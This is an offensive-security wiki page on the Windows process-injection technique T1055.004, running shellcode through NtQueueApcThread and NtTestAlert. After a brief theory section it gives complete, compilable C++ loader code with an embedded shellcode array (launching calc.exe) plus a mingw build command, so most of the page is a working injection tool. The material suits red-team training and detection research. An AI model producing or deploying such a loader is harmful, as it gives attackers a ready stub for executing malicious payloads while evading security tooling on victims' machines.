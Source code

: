 ```yaml
---
description: >-
  MITRE ATT&CK™ Process Injection: Asynchronous Procedure Call - Technique
  T1055.004
---
```


# NtQueueApcThread & NtTestAlert Shellcode Execution

## Theory

This page explores **APC (Asynchronous Procedure Call) Shellcode Execution** technique with the undocumented Native API, **NtTestAlert**, to execute shellcode within a local process.&#x20;

An **APC (Asynchronous Procedure Call)** is a function that executes asynchronously in the context of a specific thread. Windows provides the **NtQueueApcThread** function, which allows an APC routine to be added to a thread’s APC queue. The function will execute when the thread enters an **alertable state**.

#### Conditions for Execution

For an APC to be executed, the target thread must enter an alertable state. This can be achieved through functions like:

* `SleepEx()`
* `WaitForSingleObjectEx()`
* `WaitForMultipleObjectsEx()`
* `SignalObjectAndWait()`

However **`NtTestAlert`** can be used during APC injection to:

* Activate a thread’s alertable state.
* Prompt the execution of queued APCs to execute our shellcode.

### Execution Flow

1. **Memory Allocation**: Allocate memory using `NtAllocateVirtualMemory`.
2. **Shellcode Injection**: Write shellcode to the allocated memory via `NtWriteVirtualMemory`.
3. **Memory Protection Change**: Modify the memory protection to executable with `NtProtectVirtualMemory`.
4. **Queue APC Function**: Use `NtQueueApcThread` to queue the shellcode for execution.
5. **Trigger APC Execution**: Force the thread into an alertable state using `NtTestAlert`, which executes the shellcode.

## Practice

{% tabs %}
{% tab title="C++" %}
The following code implements this technique:

{% code title="QueueAPC.cpp" %}
```cilkcpp
#include <iostream>
#include <windows.h>
#include <psapi.h>
#include <tlhelp32.h>
#include <stdlib.h>
#include <tchar.h>

// Add these typedefs and function declarations for the NT functions
typedef NTSTATUS (NTAPI *pNtAllocateVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID *BaseAddress,
    ULONG_PTR ZeroBits,
    PSIZE_T RegionSize,
    ULONG AllocationType,
    ULONG Protect
);

typedef NTSTATUS (NTAPI *pNtWriteVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID BaseAddress,
    PVOID Buffer,
    SIZE_T NumberOfBytesToWrite,
    PSIZE_T NumberOfBytesWritten
);

typedef NTSTATUS (NTAPI *pNtProtectVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID *BaseAddress,
    PSIZE_T RegionSize,
    ULONG NewProtect,
    PULONG OldProtect
);

typedef NTSTATUS (NTAPI *pNtQueueApcThread)(
    HANDLE ThreadHandle,
    PVOID ApcRoutine,
    PVOID ApcArgument1,
    PVOID ApcArgument2,
    PVOID ApcArgument3
);

typedef NTSTATUS (NTAPI *pNtTestAlert)(
    VOID
);

typedef NTSTATUS (NTAPI *pNtClose)(
    HANDLE Handle
);

// Define NTSTATUS if not already defined
#ifndef NTSTATUS
typedef LONG NTSTATUS;
#endif

DWORD WINAPI esc_main(LPVOID lpParameter)
{
    DWORD dwSize;

    //calc.exe shellcode
    unsigned char decoded[] = {0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00};
    SIZE_T length = sizeof(decoded);


    // Load NT functions dynamically
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    if (!hNtdll) {
        std::cerr << "Failed to get handle to ntdll.dll" << std::endl;
        return 1;
    }
    
    pNtAllocateVirtualMemory NtAllocateVirtualMemory = (pNtAllocateVirtualMemory)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
    pNtWriteVirtualMemory NtWriteVirtualMemory = (pNtWriteVirtualMemory)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
    pNtProtectVirtualMemory NtProtectVirtualMemory = (pNtProtectVirtualMemory)GetProcAddress(hNtdll, "NtProtectVirtualMemory");
    pNtQueueApcThread NtQueueApcThread = (pNtQueueApcThread)GetProcAddress(hNtdll, "NtQueueApcThread");
    pNtTestAlert NtTestAlert = (pNtTestAlert)GetProcAddress(hNtdll, "NtTestAlert");
    pNtClose NtClose = (pNtClose)GetProcAddress(hNtdll, "NtClose");
    
    if (!NtAllocateVirtualMemory || !NtWriteVirtualMemory || !NtProtectVirtualMemory || 
        !NtQueueApcThread || !NtTestAlert || !NtClose) {
        std::cerr << "Failed to get addresses of NT functions" << std::endl;
        return 1;
    }

    //####SYSCALL####
    HANDLE hProc = GetCurrentProcess();
    DWORD oldprotect = 0;
    PVOID base_addr = NULL;
    HANDLE hThread = NULL;
    SIZE_T bytesWritten;
    SIZE_T pnew = length;
    NTSTATUS status;

    // Allocate memory for shellcode
    status = NtAllocateVirtualMemory(hProc, &base_addr, 0, &pnew, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (status != 0) {
        std::cerr << "NtAllocateVirtualMemory failed with status: " << std::hex << status << std::endl;
        return 1;
    }
    
    // Write shellcode to allocated memory
    status = NtWriteVirtualMemory(hProc, base_addr, decoded, length, &bytesWritten);
    if (status != 0) {
        std::cerr << "NtWriteVirtualMemory failed with status: " << std::hex << status << std::endl;
        return 1;
    }
    
    // Change memory protection to executable
    status = NtProtectVirtualMemory(hProc, &base_addr, (PSIZE_T)&length, PAGE_EXECUTE_READ, &oldprotect);
    if (status != 0) {
        std::cerr << "NtProtectVirtualMemory failed with status: " << std::hex << status << std::endl;
        return 1;
    }
    
    // Queue APC to current thread
    HANDLE currentThread = GetCurrentThread();
    status = NtQueueApcThread(currentThread, base_addr, NULL, NULL, NULL);
    if (status != 0) {
        std::cerr << "NtQueueApcThread failed with status: " << std::hex << status << std::endl;
        return 1;
    }
    
    std::cout << "Queued APC, alerting thread to process it..." << std::endl;
    
    // Alert the thread to process the APC
    status = NtTestAlert();
    if (status != 0) {
        std::cerr << "NtTestAlert failed with status: " << std::hex << status << std::endl;
        return 1;
    }
    
    // Clean up handle
    NtClose(hProc);
    
    std::cout << "Execution completed" << std::endl;
    return 0;
}

int main()
{
    esc_main(NULL);
    return 0;
}

```
{% endcode %}

We can compile it from linux using following command

```bash
x86_64-w64-mingw32-g++ QueueAPC.cpp -o QueueAPC.exe -std=c++20 -static
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-in-a-local-process-with-queueuserapc-and-nttestalert" %}

{% embed url="https://sid4hack.medium.com/malware-development-part-12-apc-injection-via-nttestalert-8beb70834dff" %}
